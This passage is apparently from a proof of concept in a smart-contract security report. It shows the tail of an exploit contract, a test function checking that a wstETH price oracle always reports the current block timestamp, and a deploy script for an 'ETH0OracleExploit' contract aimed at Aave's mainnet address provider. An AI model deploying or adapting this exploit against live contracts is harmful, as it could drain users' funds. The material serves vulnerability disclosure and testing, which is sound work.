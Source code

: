 ```solidity
            amount,
            "0x",
            0
        );
    }

    // Test functions to verify oracle behavior
    function testOracleTimestamp() external view returns (uint256) {
        // Get price and timestamp from oracle
        (
            uint80 roundId,
            int256 answer,
            uint256 startedAt,
            uint256 updatedAt,
            uint80 answeredInRound
        ) = ILidoProxyWstETHPriceFeed(daoCollateral.oracle()).latestRoundData();

        // Verify timestamp is always block.timestamp
        require(updatedAt == block.timestamp, "Oracle timestamp not manipulated");
        return updatedAt;
    }
}

// Helper interface for testing
interface ILidoProxyWstETHPriceFeed {
    function latestRoundData() external view returns (
        uint80 roundId,
        int256 answer,
        uint256 startedAt,
        uint256 updatedAt,
        uint80 answeredInRound
    );
}
```

To test: 

1) Deploy the exploit contract code is pasted below:

```solidity

// Deploy script
async function main() {
    const AAVE_ADDRESS_PROVIDER = "0x2f39d218133AFaB8F2B819B1066c7E434Ad94E9e"; // Mainnet
    
    const ExploitFactory = await ethers.getContractFactory("ETH0OracleExploit");
    const exploit = await ExploitFactory.deploy(AAVE_ADDRESS_PROVIDER);
    await exploit.deployed();
    
    console.log("Exploit deployed to:", exploit.address);
}

```
